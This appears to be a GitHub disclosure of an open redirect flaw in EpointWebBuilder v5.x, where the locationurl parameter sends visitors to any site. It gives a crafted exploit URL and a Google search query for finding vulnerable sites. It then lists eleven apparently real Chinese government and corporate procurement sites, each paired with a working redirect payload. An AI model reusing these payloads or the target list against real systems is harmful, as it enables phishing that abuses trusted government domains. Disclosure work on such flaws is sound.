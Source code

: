 # EpointWebBuilder_v5.x_VULN


## Step
Tests revealed the following links in the site:
http://xxx.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://xxx.cn&infoid=4a1ba0e4-95b3-4e58-9b8c-7530247b82a4  
The locationurl specifies the location where the visitor will be redirected, and the infoid parameter is directly related to the path of the redirected resource.  
However, the infoid and locationurl parameters have no validation beyond this.  
Therefore, make the following link: 
http://xxx.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://google.com/%23&infoid=4a1ba0e4-95b3-4e58-9b8c-7530247b82a4 , 
where the infoid parameter is directly related to the path of the redirected resource, which must be an existing UUID.   
The system will redirect the visitor to any location according to the locationurl parameter, which is google.com in the above example.
302=>
https://www.google.com/#/jyxx/001006/001006001/20230825/4a1ba0e4-95b3-4e58-9b8c-7530247b82a4.html
## Example
google query: 
`inurl:“pageRedirectAction”`

1.	江苏省公共资源交易平台（EpointWebBuilder V5.1.0-sp1）
http://ggzy.taizhou.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=4a1ba0e4-95b3-4e58-9b8c-7530247b82a4
2.	龙岩公共资源交易中心
https://ggzy.longyan.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=451f2a3e-2f0c-4271-bb30-38fe6a840441
3.	鞍钢智慧招投标平台
http://bid.ansteel.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=b46c9bfc-f2b4-4ea0-aac3-41d94aedf5bf
4.	喀什地区公共资源交易网
http://36.189.231.22/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=32c96e01-46e9-46e3-b8ae-859a4ce0971a
5.	和田公共资源交易网（EpointWebBuilder V5.4.1）
http://36.107.230.199:8081/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=18366a85-4578-4157-9a8f-7620e8467413
6.	莆田市人民政务
http://ggzyjy.xzfwzx.putian.gov.cn:8808/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=1ac797e4-25b7-4c08-8b69-a8113b1e6de0
7.	博州公共资源交易网（EpointWebBuilder V5.2.1-sp1）
http://xzfw.xjboz.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=279f97b6-3d3f-465a-806c-8904c26ad84c
8.	枣庄市公共资源交易网（EpointWebBuilder V5.4.1）
http://ggzy.zaozhuang.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=e37ce09f-420d-42b7-9079-302dc9b34aad
9.	芜湖市公共资源交易中心（EpointWebBuilder V5.4.2）
http://whsggzy.wuhu.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=38e7ee57-5a22-4c89-ba59-082f42991f01
10.	博州公共资源交易网（EpointWebBuilder V5.2.1-sp1）
http://xzfw.xjboz.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=5bd400a1-08fd-4230-a8c0-11e9ff084cd9
11. 克州公共资源交易网
http://kzggzyjy.com.cn:8024/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=39f1209f-a5ee-454a-8434-9ea8d7e12db3
